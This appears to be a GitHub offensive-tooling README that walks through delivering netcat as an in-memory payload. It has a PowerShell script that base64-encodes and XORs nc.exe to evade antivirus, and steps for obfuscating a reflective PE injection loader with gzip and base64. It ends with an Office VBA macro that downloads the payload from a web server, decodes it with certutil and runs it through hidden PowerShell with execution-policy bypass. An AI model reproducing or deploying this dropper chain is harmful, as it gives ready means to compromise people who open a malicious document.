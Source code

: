 ## XORed Netcat

```
function Convert-BinaryToString {
    [CmdletBinding()] param (
        [string] $FilePath
    )
    try {
    $ByteArray = [System.IO.File]::ReadAllBytes($FilePath);
    }
    catch {
        throw "Failed to read file.";
    }
    if ($ByteArray) {
        $Base64String = [System.Convert]::ToBase64String($ByteArray);
    }
    else {
        throw '$ByteArray is $null.';
    }
    Write-Output -InputObject $Base64String;
}

Convert-BinaryToString "c:\users\hassan.saad\desktop\extreme\nc.exe" > nc_base64.txt
(Get-Content -path "c:\users\hassan.saad\desktop\extreme\nc_base64.txt" -Raw) -replace 'A','Z' > key.txt

$file1_b = [System.IO.File]::ReadAllBytes("c:\users\hassan.saad\desktop\extreme\nc_base64.txt")
$file2_b = [System.IO.File]::ReadAllBytes("c:\users\hassan.saad\desktop\extreme\key.txt")
$out = "c:\users\hassan.saad\desktop\extreme\ciphered.txt"

$len = if ($file1_b.Count -lt $file2_b.Count) {$file1_b.Count} else { $file2_b.Count}
$xord_byte_array = New-Object Byte[] $len
# XOR between the files
for($i=0; $i -lt $len ; $i++) {
    $xord_byte_array[$i] = $file1_b[$i] -bxor $file2_b[$i] }
[System.IO.File]::WriteAllBytes("$out", $xord_byte_array)
write-host "[*] $file1 XOR $file2`n[*] Saved to " -nonewline;
Write-host "$out" -foregroundcolor yellow -nonewline; Write-host ".";
```

Then host the ciphered text and the key on your own web server.

Then use the PEInject.ps1 script and replace the URLs with your own web server.

The PEInject.ps1 script will reverse what XORed Netcat does then inject Netcat into powershell process.

# PEInject.ps1 Obfuscation

Then compress PEInject.ps1 script using https://www.multiutil.com/text-to-gzip-compress/ and put the output into the below script.

```
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String('insert_gzip_compressed_Invoke-ReflectivePEInjection'));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd()
```

Then Base64 the above script using https://www.base64encode.org/ .

Then also host the obfuscated PEInject script on your own web server, then use the following macro code to download the file then decoded and executed.

## Macro Code VBA

```
Sub DownloadFileFromURL()

Dim FileUrl As String
Dim objXmlHttpReq As Object
Dim objStream As Object

FileUrl = "http://192.168.43.207:8000/ps1.crt"

Set objXmlHttpReq = CreateObject("Microsoft.XMLHTTP")

objXmlHttpReq.Open "GET", FileUrl, False, "username", "password"
objXmlHttpReq.send

If objXmlHttpReq.Status = 200 Then
Set objStream = CreateObject("ADODB.Stream")

ChDir ActiveWorkbook.Path

objStream.Open
objStream.Type = 1
objStream.Write objXmlHttpReq.responseBody
objStream.SaveToFile CurDir() & "\file.crt", 2
objStream.Close

End If

Shell ("cmd /c certutil -decode file.crt decoded.ps1 & c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -exec bypass -W Hidden .\decoded.ps1")

End Sub
```

